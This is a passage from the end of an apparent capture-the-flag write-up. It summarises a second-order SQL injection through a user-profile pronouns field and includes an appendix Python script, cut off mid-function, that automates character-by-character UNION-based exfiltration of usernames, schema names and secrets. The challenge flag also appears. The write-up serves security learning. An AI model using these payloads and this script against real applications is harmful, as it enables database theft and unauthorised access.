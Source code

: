 * Unsanitized pronouns field in user profiles leads to second-order SQL injection via comment tagging
* UNION-based payloads leak data, one character per request, using crafted pronouns and comment automation
* Automated exfiltration recovers usernames, table names, columns, and the flag
* Flag found in the `secrets` table: `SHLK{S3CoNd_0RDeR_4rEN7_AwE50me_?}`

---

## Appendix

Python script used for data exfiltration:

```python
import requests
import re
import time

BASE_URL = "http://IP:PORT"
COOKIES = {
    "is_a_cool_admin": "yes", # just in case
    "session": "eyJ....xKM"
}
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}
MAX_LEN = 100
SLEEP = 0.2

def create_dummy_movie():
    url = f"{BASE_URL}/movies/addMovie"
    from time import strftime
    data = {
        "title": strftime("%H:%M:%S"),
        "content": "a",
        "image_link": "a"
    }
    r = requests.post(url, data=data, cookies=COOKIES, headers=HEADERS)
    if r.status_code != 200:
        print(f"Error film creation: {r.status_code}")

def get_last_movie_id():
    url = f"{BASE_URL}/forum"
    r = requests.get(url, cookies=COOKIES)
    movie_ids = re.findall(r'href="/movie/(\d+)"', r.text)
    if not movie_ids:
        print("Error findings movie in /forum")
        return None
    return movie_ids[-1]

def inject_sqli(index):
    url = f"{BASE_URL}/profile"
    #payload = f"' UNION SELECT NULL, ASCII(SUBSTRING((SELECT username FROM users WHERE id=12),{index},1)) --"
    #payload = f"' UNION SELECT NULL, ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 3),{index},1)) --"
    #payload = f"' UNION SELECT NULL, ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0),{index},1)) --"
    #payload = f"' UNION SELECT NULL, ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='secrets' LIMIT 1 OFFSET 0),{index},1)) --"
    
    payload = f"' UNION SELECT NULL, ASCII(SUBSTRING((SELECT classification FROM secrets WHERE id=3),{index},1)) --"
    data = {
```